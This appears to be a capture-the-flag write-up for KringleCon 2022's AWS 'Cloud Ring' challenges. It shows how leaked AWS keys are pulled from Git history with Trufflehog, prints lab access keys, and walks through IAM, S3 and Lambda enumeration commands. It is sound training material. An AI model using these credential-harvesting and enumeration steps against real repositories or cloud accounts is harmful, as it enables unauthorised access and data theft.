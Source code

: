 ```yaml
---
layout: kringlecon2022
title: "Cloud Ring"
author: "Andrew Cherney"
date: 2023-01-15 19:52:13
tags: kringlecon cloud aws
---
```

## AWS CLI Intros
***
___
Try out some basic AWS command line skills in this terminal. Talk to Jill Underpole in the Cloud Ring for hints.

***

#### Question

1. Next, please configure the default aws cli credentials with the access key AKQAAYRKO7A5Q5XUY2IY, the secret key qzTscgNdcdwIo/soPKPoJn9sBrl5eMQQL19iO5uf and the region us-east-1 .
https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-quickstart.html#cli-configure-quickstart-config

#### Answer

Answer: `aws configure` 

___

#### Question

2. Excellent! To finish, please get your caller identity using the AWS command line. For more details please reference:
$ aws sts help

#### Answer

Answer: `aws sts get-caller-identity`

___



## Exploitation via AWS CLI
***
___
Flex some more advanced AWS CLI skills to escalate privileges! Help Gerty Snowburrow in the Cloud Ring to get hints for this challenge.

***

#### Question

1. Use Trufflehog to find credentials in the Gitlab instance at https://haugfactory.com/asnowball/aws_scripts.git.
Configure these credentials for us-east-1 and then run:
$ aws sts get-caller-identity

#### Answer

Answer: `trufflehog git https://haugfactory.com/asnowball/aws_scripts.git`
`git clone https://haugfactory.com/asnowball/aws_scripts.git`
`cd aws_scripts`
`git show 106d33e1ffd53eea753c1365eafc6588398279b5`

+    aws_access_key_id="AKIAAIDAYRANYAHGQOHD",
+    aws_secret_access_key="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",
`aws configure`
`aws sts get-caller-identity`

___

#### Question

2. Managed (think: shared) policies can be attached to multiple users. Use the AWS CLI to find any policies attached to your user.
The aws iam command to list attached user policies can be found here:
https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/index.html
Hint: it is NOT list-user-policies.

#### Answer

An easy answer for all these questions is to search for command options with `aws iam help | grep`

Answer: `aws iam list-attached-user-policies --user-name haug`

{
    "AttachedPolicies": [
        {
            "PolicyName": "TIER1_READONLY_POLICY",
            "PolicyArn": "arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY"
        }
    ],
    "IsTruncated": false
}

___

#### Question

3. Now, view or get the policy that is attached to your user.
The aws iam command to get a policy can be found here:
https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/index.html

#### Answer

Answer: `aws iam get-policy --policy-arn arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY`

{
    "Policy": {
        "PolicyName": "TIER1_READONLY_POLICY",
        "PolicyId": "ANPAYYOROBUERT7TGKUHA",
        "Arn": "arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY",
        "Path": "/",
        "DefaultVersionId": "v1",
        "AttachmentCount": 11,
        "PermissionsBoundaryUsageCount": 0,
        "IsAttachable": true,
        "Description": "Policy for tier 1 accounts to have limited read only access to certain resources in IAM, S3, and LAMBDA.",
        "CreateDate": "2022-06-21 22:02:30+00:00",
        "UpdateDate": "2022-06-21 22:10:29+00:00",
        "Tags": []
    }
}

___

#### Question

4. Attached policies can have multiple versions. View the default version of this policy.
The aws iam command to get a policy version can be found here:
https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/index.html

#### Answer

Answer: `aws iam get-policy-version --version-id v1 --policy-arn arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY`

___

#### Question

5. Inline policies are policies that are unique to a particular identity or resource. Use the AWS CLI to list the inline policies associated with your user. 
The aws iam command to list user policies can be found here:
https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/index.html
Hint: it is NOT list-attached-user-policies.

#### Answer

Answer: `aws iam list-user-policies --user-name haug`

___

#### Question

6. Now, use the AWS CLI to get the only inline policy for your user. 

#### Answer

Answer: `aws iam get-user-policy --policy-name S3Perms --user-name haug`

___

#### Question

7. The inline user policy named S3Perms disclosed the name of an S3 bucket that you have permissions to list objects. 
List those objects! 

#### Answer

Answer: `aws s3api list-objects --bucket smogmachines3`

___

#### Question

8. The attached user policy provided you several Lambda privileges. Use the AWS CLI to list Lambda functions.

#### Answer

Answer: `aws lambda list-functions`

___

#### Question

9. Lambda functions can have public URLs from which they are directly accessible.
Use the AWS CLI to get the configuration containing the public URL of the Lambda function.

#### Answer

Answer: `aws lambda get-function-url-config --function-name smogmachine_lambda`

___





## Trufflehog Search
***
___
Use Trufflehog to find secrets in a Git repo. Work with Jill Underpole in the Cloud Ring for hints. What's the name of the file that has AWS credentials?

***

easy challenge
install trufflehog
scan https://haugfactory.com/orcadmin/aws_scripts

`git clone https://github.com/trufflesecurity/trufflehog.git`

`cd trufflehog; go install`

`trufflehog git https://haugfactory.com/orcadmin/aws_scripts`

___









